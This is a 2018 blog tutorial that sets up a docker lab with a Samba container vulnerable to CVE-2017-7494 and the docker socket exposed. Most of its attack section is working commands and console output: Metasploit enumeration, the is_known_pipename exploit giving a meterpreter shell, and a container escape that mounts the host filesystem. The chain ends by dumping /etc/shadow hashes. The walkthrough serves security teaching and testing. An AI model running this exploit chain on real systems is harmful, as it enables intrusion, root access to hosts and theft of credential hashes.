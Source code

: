 +++
title = "Abusing insecure docker deployments"
author = ["OPSXCQ"]
date = 2018-11-10
draft = false
+++

Is possible to abuse misconfigurations and bugs and escape from containers in
several scenarios, in this post I will explore the most basic one: abusing the
docker socket to escape the container and run code as **root** in the host machine.

<!--more-->


## Lab setup {#lab-setup}

Since we will be using containers, you have to install [docker](https://docker.com) to be able to run
this lab.


### Create the network {#create-the-network}

The very first step is to create a docker network where the containers will be
created:

```bash
docker network create pwnage
```


### Start the vulnerable container {#start-the-vulnerable-container}

For this example, we will use a container vulnerable to `CVE-2017-7494`, also
known as Samba Cry vulnerability. If you are interested in reading more about it
please check this repository [opsxcq/exploit-CVE-2017-7494](https://github.com/opsxcq/exploit-CVE-2017-7494).

This vulnerability allows you to get remote code execution in a Samba server, to
complete the setup the docker socket will be added to the container. This will
generate a common misconfiguration scenario:

```bash
docker run --rm -it \
       --name vulnerable \
       --network pwnage \
       -v '/var/run/docker.sock:/var/run/docker.sock' \
       vulnerables/cve-2017-7494
```


### Start the attacker environment {#start-the-attacker-environment}

The very last step in our environment is to add the attacker host to the
network. There is an exploit in the Samba Cry repository, but instead we will be
using `Metasploit` because of `meterpreter's` advanced features which will make the
whole process easier. There is an image already build for that, just run the
command bellow and everything will run as needed for this lab:

```bash
docker run --rm -it \
       --network pwnage \
       -v '/usr/bin/docker:/docker:ro' \
       strm/metasploit
```

After it is loaded you will be presented to this screen

{{< figure src="https://raw.githubusercontent.com/opsxcq/docker-metasploit/master/print.png" >}}


## Attack {#attack}


### Information gathering {#information-gathering}

In any attack, the first thing to do is to gather information about the target.
So let's first check the connectivity by pinging the `vulnerable` container.

```bash
ping -c 2 vulnerable
```

If everything is OK you should expect an output like

```bash
msf5 > ping -c 2 vulnerable
[*] exec: ping -c 2 vulnerable

PING vulnerable (172.20.0.2) 56(84) bytes of data.
64 bytes from vulnerable.pwnage (172.20.0.2): icmp_seq=1 ttl=64 time=0.120 ms
64 bytes from vulnerable.pwnage (172.20.0.2): icmp_seq=2 ttl=64 time=0.097 ms

--- vulnerable ping statistics ---
2 packets transmitted, 2 received, 0% packet loss, time 1009ms
rtt min/avg/max/mdev = 0.097/0.108/0.120/0.015 ms
```

Then we proceed to a basic smb shares enumeration with:

```bash
use auxiliary/scanner/smb/smb_enumshares
set rhosts vulnerable
run
```

The expected output is

```text
msf5 > use auxiliary/scanner/smb/smb_enumshares
msf5 auxiliary(scanner/smb/smb_enumshares) > set rhosts vulnerable
rhosts => vulnerable
msf5 auxiliary(scanner/smb/smb_enumshares) > run

[+] 172.20.0.2:139        - data - (DS) Data
[+] 172.20.0.2:139        - IPC$ - (I) IPC Service (Crying samba)
[*] vulnerable:           - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

It show us that there is a share named `data` in this samba server.


## Getting access {#getting-access}

Next step is to run the exploit against the host so we can obtain a shell. On
`Metasploit` this vulnerability is named `is_known_pipename` and is located in
`exploit/linux/samba/is_known_pipename`.

Run the command bellow to attack the host:

```bash
use exploit/linux/samba/is_known_pipename
set RHOST vulnerable
set RPORT 445
set payload linux/x64/meterpreter/bind_tcp
set TARGET 3
set SMB_FOLDER data
set SMBUser sambacry
set SMBPass nosambanocry
exploit
```

If everything runs fine, you should be presented with a `meterpreter` shell like:

```text
msf5 > use exploit/linux/samba/is_known_pipename
msf5 exploit(linux/samba/is_known_pipename) > set RHOST vulnerable
RHOST => vulnerable
msf5 exploit(linux/samba/is_known_pipename) > set RPORT 445
RPORT => 445
msf5 exploit(linux/samba/is_known_pipename) > set payload linux/x64/meterpreter/bind_tcp
payload => linux/x64/meterpreter/bind_tcp
msf5 exploit(linux/samba/is_known_pipename) > set TARGET 3
TARGET => 3
msf5 exploit(linux/samba/is_known_pipename) > set SMB_FOLDER data
SMB_FOLDER => data
msf5 exploit(linux/samba/is_known_pipename) > set SMBUser sambacry
SMBUser => sambacry
msf5 exploit(linux/samba/is_known_pipename) > set SMBPass nosambanocry
SMBPass => nosambanocry
msf5 exploit(linux/samba/is_known_pipename) > exploit

[*] vulnerable:445 - Using location \\vulnerable\data\ for the path
[*] vulnerable:445 - Retrieving the remote path of the share 'data'
[*] vulnerable:445 - Share 'data' has server-side path '/data
[*] vulnerable:445 - Uploaded payload to \\vulnerable\data\shyyEPPk.so
[*] vulnerable:445 - Loading the payload from server-side path /data/shyyEPPk.so using \\PIPE\/data/shyyEPPk.so...
[-] vulnerable:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] vulnerable:445 - Loading the payload from server-side path /data/shyyEPPk.so using /data/shyyEPPk.so...
[-] vulnerable:445 -   >> Failed to load STATUS_OBJECT_NAME_NOT_FOUND
[*] Started bind TCP handler against vulnerable:4444
[*] Sending stage (816260 bytes) to vulnerable

meterpreter >
```


## Escalating privileges {#escalating-privileges}

To escalate privileges we will abuse the docker socket being available inside
the container. Since `dockerd` runs as root in the host machine, it has root
permissions so we can abuse it to do several things. For example using
`--privileged` can give you several extended capabilities, the text bellow
explaining them was extracted from the official docker documentation:

> By default, Docker containers are “unprivileged” and cannot, for example, run a
> Docker daemon inside a Docker container. This is because by default a container
> is not allowed to access any devices, but a “privileged” container is given
> access to all devices (see the documentation on cgroups devices). When the
> operator executes docker run --privileged, Docker will enable access to all
> devices on the host as well as set some configuration in AppArmor or SELinux to
> allow the container nearly all the same access to the host as processes running
> outside containers on the host.

You can access devices with `--device`, but in our case, we will map the root file
system (`/`) to the container and have access to it.

Since there is no docker client inside this container, the next step is to setup
the docker client and its dependencies inside our target container. Just run the
command bellow and everything will be done.

```bash
upload /docker /docker
upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7
chmod 777 /docker
chmod +x /docker
```

```text
meterpreter > upload /docker /docker
[*] uploading  : /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] Uploaded -1.00 B of 36.36 MiB (0.0%): /docker -> /docker
[*] uploaded   : /docker -> /docker
meterpreter > upload /usr/lib/x86_64-linux-gnu/libltdl.so.7 /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] uploading  : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] Uploaded -1.00 B of 38.47 KiB (-0.0%): /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
[*] uploaded   : /usr/lib/x86_64-linux-gnu/libltdl.so.7 -> /usr/lib/x86_64-linux-gnu/libltdl.so.7
meterpreter > chmod 777 /docker
meterpreter > chmod +x /docker
meterpreter >
```

And finally, using docker to have access to the host file system.

```bash
execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow"
```

And that is it, you've escaped the container and dumped the machine local user
hashes, the output will look like:

```text
meterpreter > execute -f /docker -i -H -c -a "run --rm -v '/:/rootfs' debian:9.2 cat /rootfs/etc/shadow"
Process 113 created.
Channel 13 created.
root:$1$UFKdtFGw$qp29y1qGWit/vnvIG0uSr1:17488:0:99999:7:::
daemon:*:17488:0:99999:7:::
bin:*:17488:0:99999:7:::
sys:*:17488:0:99999:7:::
sync:*:17488:0:99999:7:::
games:*:17488:0:99999:7:::
man:*:17488:0:99999:7:::
lp:*:17488:0:99999:7:::
mail:*:17488:0:99999:7:::
news:*:17488:0:99999:7:::
```


## References {#references}

-   [Metasploit docker image](<https://github.com/opsxcq/docker-metasploit>)
-   [Vulnerable container](<https://github.com/opsxcq/exploit-CVE-2017-7494>)
